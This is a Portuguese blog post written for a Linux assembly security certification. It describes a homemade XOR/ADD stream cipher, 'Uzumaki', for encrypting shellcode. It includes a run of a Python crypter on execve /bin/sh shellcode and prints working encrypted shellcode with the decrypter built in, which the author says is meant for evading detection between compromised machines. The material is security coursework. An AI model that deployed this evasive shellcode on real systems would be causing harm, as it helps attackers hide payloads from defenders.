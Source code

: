 ```yaml
---
layout: post
title: SLAE - 7th Assignment - Crypted Shellcodes
date: '2013-04-29T12:03:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, python, cryptography, hacking, portuguese]
modified_time: '2013-08-22T13:17:25.039-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-2083288330686489851
blogger_orig_url: http://www.hackingbits.com/2013/04/slae-7th-assignment-crypted-shellcodes.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
[SLAE - 2nd Assignment - Shell Reverse TCP](/slae-2nd-assignment-shell-reverse-tcp.html)<br>
[O menor do mundo? Yeah? So Beat the Bits!](/o-menor-do-mundo-yeah-so-beat-bits.html)<br>
[SLAE - 3rd Assignment - Caçando Ovos?](/slae-3rd-assignment-cacando-ovos.html)<br>
[SLAE - 4th Assignment - Encoding and Decoding Gollums](/slae-4th-assignment-encoding-and.html)<br>
[SLAE - 5th Assignment - Metasploit Shellcodes Analysis](/slae-5th-assignment-metasploit.html)<br>
[SLAE - 6th Assignment - Polymorphic Shellcodes](/slae-6th-assignment-polymorphic.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/7th.assignment)*.

*Shell-Storm:<br>
[Tiny Execve Sh](http://shell-storm.org/shellcode/files/shellcode-841.php)<br>
[Insertion Decoder Shellcode](http://shell-storm.org/shellcode/files/shellcode-840.php)*

##The Last Mission

Finalmente, o último assignment.

###7th assignment

- Criar um crypter customizado.
- Utilizar qualquer esquema de criptografia existente.
- Usar qualquer linguagem de programação.

##Criptografia!

O vídeo sobre o assunto demonstra um encrypter e um decrypter, construídos em C,
que usam o algoritmo de fluxo [RC4](http://en.wikipedia.org/wiki/RC4) para
processar o shellcode. De início eu não contemplei a que fim serviria um
shellcode critptografado que não conteria seu decrypter embutido, portanto,
agradeço ao Pedro Fausto pela objetiva explanação que me deixou inteirado das
possíveis finalidades: uso na comunicação entre dois pontos já comprometidos;
uso entre um bastião e seus zumbis... Em suma, para qualquer uso evasivo entre
pontos!

Encontrei um algoritmo candidato para a implementação do crypter: [TEA - Tiny
Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).
Entretanto, vi que ele não seria viável por conta do tamanho que ele teria em
[assembly](http://nayuki.eigenstate.org/page/tiny-encryption-algorithm-in-x86-assembly);
haja vista não ter aberto mão de criar o built-in decrypter.

Só tinha uma maneira, criar meu próprio tiny
[cipher](http://en.wikipedia.org/wiki/Cipher).

##Uzumaki Cipher (Swirling Everything)

Usei os moldes da [Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)
para criar o Uzumaki (うずまき) Cipher; a cifra consiste no processo de um XOR com
um valor estático, seguido de mais um XOR com um valor pseudorandom (keystream),
terminando com o ADD de um valor estático.

###Crypter

**shellcode[x-1] ^ (shellcode[x] ^ xorByte)) + addByte**

###Built-in Decrypter

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/7th.assignment/uzumaki_decrypter.png" caption="Fluxograma do Uzumaki Cipher" %}

O uzumaki cipher é um algoritmo simples que pode ser utilizado com sucesso em
shellcodes quando o assunto é evasão. Devo ressaltar que um dado criptografado,
para sua própria segurança, não deve conter informações que possam levar à
desencriptação; assim, o built-in decrypter do fluxograma acima (no git com
código comentado) foi criado apenas como uma
[PoC](http://en.wikipedia.org/wiki/Proof_of_Concept). Contudo, nada obsta seu
uso.

##Uso

{% highlight console %}
$ ./uzumaki_crypter.py -a 01 -x 5d -s $'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
...
Crypted shellcode:

"\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11

Crypted shellcode with decrypter built-in:

"\x29\xc9\x74\x14\x5e\xb1\x14\x46\x8b\x06\x83\xe8\x01\x34\x5d\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8\xe7\xff\xff\xff\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x29,0xc9,0x74,0x14,0x5e,0xb1,0x14,0x46,0x8b,0x06,0x83,0xe8,0x01,0x34,0x5d,0x32,0x46,0xff,0x88,0x06,0xe2,0xf1,0xeb,0x05,0xe8,0xe7,0xff,0xff,0xff,0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11
{% endhighlight %}

##Fim!?

É isso aí pessoal! Essa foi a última missão do curso SLAE! E até que foi
simples, porque no decorrer dos posts, aprendemos muitas formas de utilizar a
linguagem assembly para a criação de vários tipos de shellcodes.

Espero que tenham gostado!

[]

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[Get shellcode of the binary using objdump - Andrey Arapov](http://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump#comment)<br>
[RC4](http://en.wikipedia.org/wiki/RC4)<br>
[Tiny Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm)<br>
[Cipher](http://en.wikipedia.org/wiki/Cipher)<br>
[Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)<br>
[Uzumaki - Denshi Jisho](http://jisho.org/words?jap=uzumaki&eng=&dict=edict)<br>

